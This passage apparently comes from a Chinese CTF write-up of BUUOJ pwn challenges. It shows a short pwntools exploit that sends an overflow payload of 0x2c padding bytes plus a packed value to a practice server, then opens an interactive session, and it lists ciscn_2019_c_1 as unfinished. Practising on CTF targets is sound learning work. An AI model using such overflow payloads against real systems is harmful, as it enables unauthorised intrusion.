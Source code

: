 **exp**

```python
from pwn import *
p = remote('node3.buuoj.cn','27913')
payload = "a" * 0x2c + p64(0x41348000)
p.sendline(payload)
p.interactive()
```

3. 执行结果

![](截图\9.4.png)

### 6.ciscn_2019_c_1（未完成）

![](截图\10.1.png)